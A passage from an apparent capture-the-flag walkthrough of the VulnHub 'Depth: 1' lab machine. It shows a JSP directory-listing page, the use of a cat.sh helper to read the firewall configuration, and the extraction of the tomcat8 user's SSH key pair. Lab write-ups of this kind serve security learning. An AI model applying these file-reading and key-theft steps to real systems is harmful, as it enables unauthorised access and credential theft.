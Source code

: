 ```
                out.println("<td>" + tokens[2] + "</td>");
                out.println("<td>" + tokens[3] + "</td>");
                out.println("<td>" + tokens[4] + "</td>");
                String[] filename = Arrays.copyOfRange(tokens, 8, tokens.length);
                String fname = String.join(" ", filename);
                out.println("<td>" + fname + "</td>");
                out.println("</tr>");

                //out.println(tokens.length);
                //out.println(disr);
                disr = dis.readLine();
            } else {
                disr =dis.readLine();
            }
        }
        out.println("</table>");

    }
%>
```

I'm able to run `ps faux` and notice that `sshd` is running. `ufw`, a firewall, is also running based on what's in `/etc/ufw/ufw.conf`.

```
# ./cat.sh /etc/ufw/ufw.conf
# /etc/ufw/ufw.conf
#

# Set to yes to start on boot If setting this remotely, be sure to add a rule
# to allow your remote connection before starting ufw. Eg: 'ufw allow 22/tcp'
ENABLED=yes

# Please use the 'ufw' command to set the loglevel. Eg: 'ufw logging medium'
# See 'man ufw' for details.
LOGLEVEL=low
```

This explains why there's one open port from the earlier `nmap` scan. SSH is probably blocked by the firewall.

### The Key to a Man's Heart Is Through His Stomach

With `cat.sh`, combined with the directory listing from `test.jsp`, I'm able to discover and extract `tomcat8`'s SSH key pair from its home directory.

![screenshot-3](/assets/images/posts/depth-1-walkthrough/screenshot-3.png)


[1]: https://www.vulnhub.com/entry/depth-1,213/
[2]: https://twitter.com/@fang0654
[3]: https://www.vulnhub.com